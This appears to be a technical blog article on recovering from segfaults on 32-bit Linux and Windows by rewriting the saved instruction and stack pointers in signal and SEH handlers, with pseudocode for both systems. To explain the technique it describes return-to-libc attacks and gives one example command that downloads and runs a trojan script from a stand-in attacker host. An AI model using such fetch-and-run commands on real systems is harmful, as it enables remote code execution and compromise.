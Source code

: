 Cleanly recovering from Segfaults under Windows and Linux (32-bit)
## two brief- three. three brief notes.

First. Windows calls 'em access violations, Linux calls 'em segfaults. I'm a linux person, so I'll
go with segfaults. They're the same thing though.

Second. My code may look like C, but since it's ported from a decidedly not-C language and
I didn't actually test it to see if it compiles, you should treat it like pseudocode.
Caveat lexor. (look ma I'm classy)

Third, a warning. For me, in almost every case of segfaults, they arise due to a null pointer dereference.
These are basically harmless. However, the remaining cases tend to be _really really destructive_
things like buffer overflows, that can end up corrupting memory basically at random.
**When you attempt to recover from segfaults, you are playing with fire**. That said, moving on ..

## the problem

Segfault crashes are annoying. Most exceptions can be caught, but segfaults are the archetypal
instant/total crash. Ways of handling them tend to rely on system-specific methods and have their
own idiosyncracies. In this article I'm gonna outline how to recover from segfaults under Linux
(probably at least some other POSIX systems as well) as well as Windows (32-bit each). Interestingly,
the approach is quite similar, and should generalize to 64-bit systems with minor prodding assuming
you're familiar with the 64-bit version of cdecl.

## the basic idea

Both Windows and Linux let you define handler functions that are executed when a segfault occurs.
In theory we could throw an exception right from the handler, but this is **highly iffy**
because the operating system treats "the state of being in a handler function" as special.
We can't return from the handler function either, because that'll just bring us back to the
crash site. Instead, we need to take a page out of the Black Hat Book.

## return-to-libc

Almost all exploits are concerned primarily with getting the target computer to execute arbitrary
code. Buffer overflows let you overwrite variables, but they usually don't let you change _code_,
because assembler code does not live on the stack. There's a trick to bypass this, though,
and it's called the return-to-libc attack.

Basically, it would be enough if we could call one C library function with arbitrary arguments.
For instance, the function could be system() and the argument could be
`wget http://crackedserver.cc/trojan.sh && sh -c trojan.sh`. But we can't change code, so
we cannot insert a call instruction, even with a buffer overflow.

We can, however, reuse a call instruction that's already there.

Did you know that the "ret" instruction works like a jump that takes its address from the stack?

The way function calls work is, the "call" instruction pushes the next instruction address
after the "call" onto the stack (in most cases, the same stack as used for static buffers
, although some rare architectures have dedicated instruction stacks [and thus
are immune to this attack]), then executes a jump to the target function. Symmetrically,
the "ret"[urn] instruction simply pops an address from the stack and jumps to it.

Knowing this, our attack is simple: use a buffer overflow to overwrite the return address of the
current function with `&system`, and provide the appropriate arguments for it. This is made easier
by the fact that for historical reasons, most stacks grow _downwards_, as opposed to static buffers
on the stack, which naturally grow upwards.

We are going to make use of a similar approach.

## applying this to segfault recovery

We want the segfault handler to execute arbitrary code without being limited to what the OS
deems "safe" for handlers. For that, we need to execute a jump to the address of our userspace
(non-handler) handler function. But we can't rewrite the callsite.

We _can_ rewrite the stack. And we have one "ret" instruction available.

On both Windows and Linux, the segfault handler function is passed a "context struct", which
includes the state of the registers at the failure site. Ostensibly, this is so people can
repair the problem that caused the segfault (it also lets you do nifty things like userspace
segment handling). However, what we're going to do is to set up an imitation of the effects
of a call instruction on the stack (`push ip`), then rewrite the instruction pointer in that struct
and let the operating system's return to user code do the work for us - instead of returning to the
failing code, it's going to return to a handler function.

Enough talk. Bring the code!

## the code

### linux

    #include "signal.h"
    void seghandle_userspace() {
      // note: because we set up a proper stackframe,
      // unwinding is safe from here.
      // also, by the time this function runs, the
      // operating system is "done" with the signal.
      
      // choose language-appropriate throw instruction
      // raise new MemoryAccessError "Segmentation Fault";
      // throw new MemoryAccessException;
      // longjmp(erroneous_exit);
      // asm { int 3; }
      *(int*) NULL = 0;
    }
    enum X86Registers {
      GS, FS, ES, DS, EDI, ESI, EBP, ESP, EBX, EDX, ECX, EAX,
      TRAPNO, ERR, EIP, CS, EFL, UESP, SS
    }
    void seghandle(int sig, void* si, void* unused) {
      ucontext_t* uc = (ucontext_t*) unused;
      // No. I refuse to use triple-pointers.
      // Just pretend ref a = v; is V* ap = &v;
      // and then substitute a with (*ap).
      ref gregs = uc->uc_mcontext.gregs;
      ref eip = (void*) gregs[X86Registers.EIP],
      ref esp = (void**) gregs[X86Registers.ESP];
      
      // imitate the effects of "call seghandle_userspace"
      esp --; // decrement stackpointer.
              // remember: stack grows down!
      *esp = eip;
      
      // set up OS for call via return, like in the attack
      eip = (void*) &seghandle_userspace;
    }
    void setup_segfault_handler() {
      struct sigaction sa;
      sa.flags = SA_SIGINFO;
      sigemptyset (&sa.mask);
      sa.sigaction = &seghandle;
      if (sigaction(SIGSEGV, &sa, NULL) == -1) {
        fprintf(stderr, "failed to setup SIGSEGV handler\n");
        exit(1);
      }
    }

So on SIGSEGV, `seghandle` is called (as a signal handler), rewrites the signal's instruction address
to `seghandle_userspace`, then returns to the OS, which in returning to user code jumps to
`seghandle_userspace`, which then throws an exception or does whatever else it likes.

### windows

Under Windows, this is slightly more involved. (Of course it is. Have you seen the size of a
typical winapi function as compared to POSIX?)

What surprised me though, was how similar the approach is under Windows. The Linux approach can almost
be copied 1:1.

Big credit goes to Matt Pietrek and the highly valuable [crash course on the Depths of Win32™
SEH](http://www.microsoft.com/msj/0197/exception/exception.aspx).

Basically, Windows uses SEH (Structured Exception Handling) to cope with critical errors.
You've seen SEH before - the default SEH handler is the "This application has stopped working"
pop-up.
SEH handlers are tracked with a linked list stored in `FS[0]`. This is
the one part where you may need some assembler, or use your compiler's built-in primitives
(`_try`/`_except`) where provided. I'm going to assume that `_try`/`_except` is not available.

Okay. When a SEH error happens under Windows, the operating system grabs the list of handlers
from `FS[0]`, then queries them in order to see if any of them will handle the error. Handlers
have the choice to say "keep looking", "return to user code" or "invoke exception handler".

A useful note: if we pass over an exception and let the operating system handle it, it will call
our handler again with EH_UNWINDING set. Since the other parameters will be unchanged,
and the function probably won't try to suddenly handle an exception it just passed over,
this mostly need not concern us.

The code!

      #include "winbase.h"
      #include "windows.h"
      #include "excpt.h"
      void seghandle_userspace() {
        // see above re. what to do now
        *(int*) NULL = 0;
      }
      EXCEPTION_DISPOSITION seghandle
      (_EXCEPTION_RECORD* record, void* establisher_frame,
       _CONTEXT* context, void* dispatcher_context
      ) {
        // see above
        ref
          esp = (void**)context.Esp,
          eip = (void* )context.Eip;
        // imitate the effects of "call seghandle_userspace"
        // stack grows down under windows, too
        esp --;
        *esp = eip;
        // rewrite eip for return-to-lib, same as linux
        eip = (void*) &seghandle_userspace;
        // and back to user code.
        return ExceptionContinueExecution;
      }
      void setup_segfault_handler() {
        _EXCEPTION_REGISTRATION reg;
        // Note: this bit will require assembly.
        // Consult your compiler vendor documentation.
        reg.prev = FS[0];
        reg.handler = &seghandle;
        FS[0] = &reg;
        // note: do this on exit
        // fs[0] = ((_EXCEPTION_REGISTRATION) fs[0]).prev;
      }
